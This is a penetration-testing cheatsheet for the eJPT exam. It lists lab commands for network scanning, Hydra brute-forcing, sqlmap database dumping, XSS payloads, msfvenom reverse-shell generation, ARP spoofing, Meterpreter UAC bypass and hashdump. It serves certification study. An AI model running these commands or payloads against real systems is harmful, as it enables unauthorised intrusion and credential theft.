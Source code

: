 ```yaml
---
description: 'This is a Cheatsheet for eJPT exam + course. [Source: githubmemory.com]'
---
```


# eJPT-Cheatsheet

### Nmap

nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p --script=vuln -v

### fPing

fping -a -g 10.10.10.0/24 2>/dev/null > targets

### IP Route

**Syntax**\
ip route add \<Network-range> via \<router-IP> dev \<interface>\
eg.\
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

### John

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb [http://10.10.10.10/](http://10.10.10.10/)\
dirb [http://10.10.10.10/dir](http://10.10.10.10/dir) -u admin:admin

_I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist._

### Netcat

**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port>

### SQLMap

**Check if injection exists**

sqlmap -r Post.req\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin"

**Get database if injection Exists**

sqlmap -r login.req --dbs\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id --dbs\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" --dbs\\

**Get Tables in a Database**

sqlmap -r login.req -D dbname --tables\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname --tables\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname --tables

**Get data in a Database tables**

sqlmap -r login.req -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname -T table\_name --dump\
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin\&password=admin" -D dbname -T table\_name --dump

### Hydra

**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
_You can use same for FTP, just replace ssh with ftp_

**HTTP POST Form**\
hydra [http://10.10.10.10/](http://10.10.10.10/) http-post-form "/login.php:user=^USER^\&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

_You will know which wordlists to use when the time comes_

### XSS

\<script>alert(1)\</script>\
\<ScRiPt>alert(1)\</ScRiPt>

_This is a great filter bypass cheatsheet_\
[https://owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### msfvenom shells

**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST= LPORT= -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter\_reverse\_tcp LHOST= LPORT= -f raw > shell.php\
cat shell.php | pbcopy && echo '\<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute

run autoroute -s 10.10.10.0/24

### ARPSpoof

echo 1 > /proc/sys/net/ipv4/ip\_forward\
arpspoof -i -t -r\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration

**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-\* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share\_name

### FTP Enumeration

nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

### Meterpreter

ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win\_privs

**BYPASS UAC**\
_Background the session first_\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid>\
hashdump

### Windows Command Line

**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername



{% embed url="https://kentosec.com/2019/08/04/how-to-pass-the-ejpt/" %}

